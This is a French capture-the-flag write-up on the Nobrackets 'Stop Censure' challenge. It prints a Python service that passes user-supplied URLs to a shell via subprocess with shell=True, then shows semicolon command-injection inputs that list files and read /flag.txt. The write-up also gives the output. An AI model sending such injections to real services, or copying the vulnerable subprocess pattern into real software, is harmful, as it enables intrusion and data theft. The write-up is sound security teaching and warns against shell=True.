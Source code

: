 ```yaml
---

layout: post  
title: Stop Censure  
subtitle: Write-Up pour le Nobrackets CTF  
tags: [writeup, injection, command, CTF]  
comments: true

---
```


Salut à tous ! Voici mon write-up sur le challenge **Stop Censure** du Nobrackets CTF. Ce défi nous propose de jouer avec une vulnérabilité d'injection de commande (qu'on aime tous un peu, avouons-le 😏), via l'utilisation hasardeuse de `subprocess`. Un grand merci à **Drahoxx** pour avoir mis la barre haute (ou presque) !

## Premier coup d'œil 👀

Le challenge nous demande de vérifier si un site est censuré ou non via un service accessible avec `netcat`. Un petit tour dans notre terminal préféré et hop, on se connecte avec :

```bash
nc node1.nobrackets.fr 20764
```

Une fois en ligne, il nous est demandé de saisir une URL pour vérifier si elle est bloquée. Simple en apparence, mais on n’est pas là pour faire du tourisme, hein ? L’objectif est d’exploiter cette interface pour... obtenir le précieux flag dans `/flag.txt`, bien sûr. 💡

## Analyse du code 🔍

Voici le code source du service `chall.py` qui nous est fourni. Un rapide coup d'œil, et on repère tout de suite une petite faiblesse... mais chuuut, laissons un peu de suspense 😏 :

```python
#!/usr/bin/env python3
import subprocess
import re

# Regex qui détermine les sites légaux
pattern = r'https?://[a-zA-Z0-9.-]+\.nobrackets\.fr(/[a-zA-Z0-9./?%_-]*)?'

# Fonction de vérification de la légalité d'une url
def is_legal_url(url):
    return re.match(pattern, url) is not None

# Bannière
print("----------------------------")
print("~~ Ce site est-il légal ? ~~")
print("----------------------------")

# Entrée utilisateur
value = input("Entrez un site (eg: https://wiki.nobrackets.fr/) >>> ")

# Vérification que l'entrée utilisateur ne soit pas vide
if not value:
    print("Erreur. Veuillez entrer une URL.")
    exit(-1)

# Vérification de la légalité de l'URL entrée
if not is_legal_url(value):
    print("Erreur. Votre URL est soit mal formatée soit illégale !")
    exit(-1)

# Test de l'existence du site
process = subprocess.run("curl -I "+value, capture_output=True, shell=True)
res = process.stdout
if not res:
    print("Erreur. Le site ne semble pas exister.")
    exit(-1)

# Affichage de l'échange
print("Succès ! Le site est légal et fonctionnel ! Voici ses informations : \n\n")
print(res.decode())
exit(0)
```

Ici, `subprocess.run()` est utilisé pour exécuter la commande `curl` et tester si l'URL existe. **Mais**, le petit piège ici, c’est l’option `shell=True` combinée à une entrée utilisateur non contrôlée... Vous voyez où ça nous mène ? 🚀 Oui, oui, on peut jouer avec ça !

## Exploitation 💥

Pour vérifier si l'injection de commande fonctionne, j'ai essayé une commande classique de listing de fichiers. C'est parti pour un petit test avec `ls` :

```bash
nc node1.nobrackets.fr 20764
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> https://wiki.nobrackets.fr; ls
```

Et voilà l'output :

```bash
Succès ! Le site est légal et fonctionnel ! Voici ses informations :

HTTP/2 200 
server: GitHub.com
content-type: text/html; charset=utf-8
last-modified: Fri, 11 Oct 2024 22:00:15 GMT
access-control-allow-origin: *
etag: "67099fef-a60b"
expires: Thu, 17 Oct 2024 16:28:13 GMT
cache-control: max-age=600
x-proxy-cache: MISS
x-github-request-id: 5066:0DB5:E147C0:E7B1C4:671138C4
accept-ranges: bytes
date: Thu, 17 Oct 2024 17:58:50 GMT
via: 1.1 varnish
age: 0
x-served-by: cache-par-lfpg1960039-PAR
x-cache: HIT
x-cache-hits: 1
x-timer: S1729187930.281473,VS0,VE129
vary: Accept-Encoding
x-fastly-request-id: 561b2b3cd07d5177045d938ec4be4fc947ef1304
content-length: 42507

chall.py
```

Oh, surprise ! 🎉 La commande `ls` a été exécutée, et on peut voir le fichier `chall.py` apparaître. Jackpot !

### Étape suivante : Accès au Flag 🏴‍☠️

Maintenant que l’injection est confirmée, on passe aux choses sérieuses : récupérer le flag. La commande ? Simple et efficace :

```bash
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> https://wiki.nobrackets.fr; cat /flag.txt
```

Et voici ce que ça donne :

```bash
Succès ! Le site est légal et fonctionnel ! Voici ses informations :

HTTP/2 200 
server: GitHub.com
content-type: text/html; charset=utf-8
last-modified: Fri, 11 Oct 2024 22:00:15 GMT
access-control-allow-origin: *
etag: "67099fef-a60b"
expires: Thu, 17 Oct 2024 16:28:13 GMT
cache-control: max-age=600
x-proxy-cache: MISS
x-github-request-id: 5066:0DB5:E147C0:E7B1C4:671138C4
accept-ranges: bytes
date: Thu, 17 Oct 2024 17:58:50 GMT
via: 1.1 varnish
age: 0
x-served-by: cache-par-lfpg1960039-PAR
x-cache: HIT
x-cache-hits: 1
x-timer: S1729187930.281473,VS0,VE129
vary: Accept-Encoding
x-fastly-request-id: 561b2b3cd07d5177045d938ec4be4fc947ef1304
content-length: 42507

NBCTF{#FreeTheInternet}
```

💥 Bim ! Flag récupéré : **NBCTF{#FreeTheInternet}**. Mission accomplie. 🎯

## Conclusion 🏁

Ce challenge montre une nouvelle fois que l'utilisation hasardeuse de `subprocess` avec `shell=True` ouvre la porte à des injections de commande. Les développeurs devraient toujours désactiver cette option et s'assurer que les commandes sont correctement protégées. Et pour nous, hackers, c’est un joli terrain de jeu ! 😉

Encore un grand merci à **Drahoxx** pour ce défi palpitant. On aime toujours quand les failles sont un peu trop faciles à exploiter 😎.
